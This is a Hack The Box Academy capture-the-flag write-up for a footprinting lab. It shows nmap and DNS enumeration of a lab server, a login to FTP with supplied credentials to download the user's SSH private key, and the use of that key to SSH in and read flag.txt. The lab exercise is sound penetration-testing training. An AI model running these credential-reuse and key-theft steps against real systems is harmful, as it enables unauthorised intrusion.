 # Footprinting Lab - Easy  

[Footprinting Lab - Easy](https://academy.hackthebox.com/module/112/section/1078)  

>We were commissioned by the company `Inlanefreight` Ltd to test three different servers in their internal network. 
>The first server is an internal DNS server that needs to be investigated. 
>The client wants to know what information we can get out of these services and how this information could be used against its infrastructure. 
>Goal is to gather as much information as possible about the server and find ways to use that information against the company. 
>However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.  
  
>Additionally, our teammates have found the following credentials `ceil:qwer1234`,
>and they pointed out that some of the company's employees were talking about SSH keys on a forum.  

>The administrators have stored a `flag.txt` file on this server to track our progress and measure success.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap 10.129.53.210                                        

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
2121/tcp open  ccproxy-ftp
```  

>NMAP Service, Version , OS and default scripts scan results:  

```
sudo nmap -p 21,22,53,2121 -sCV -A -O 10.129.53.210             

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.53.210]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
53/tcp   open  domain       ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
2121/tcp open  ccproxy-ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Ceil's FTP) [10.129.53.210]
```  

>Observe that port `2121` PrFTPD service read comment about `Ceil` FTP.  

### FTP

>Secure [FTP](https://academy.hackthebox.com/module/112/section/1066) service enumeration with provided `Ceil` credentials.

```
openssl s_client -connect 10.129.53.210:21 -starttls ftp

ftp 10.129.53.210 2121

Username:ceil
Password:qwer1234

ls -al
cd .ssh
get id_rsa
```  

### DNS

>[Domain Name System - DNS](https://academy.hackthebox.com/module/112/section/1069) Footprinting and enumeration.  

```
dig ns inlanefreight.htb @10.129.53.210
```  

>Subdomain DNS Brute Forcing.  

```
dnsenum --dnsserver 10.129.53.210 --enum -p 0 -s 0 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
```  

## Foothold  

>SSH as the user `Ceil` with their discovered `id_rsa` key file from the FTP service on port `2121`.  

```
chmod 600 ceil-ssh.txt

ssh ceil@10.129.53.210 -i ceil-ssh.txt

cd /home/flag
cat /home/flag/flag.txt
```  


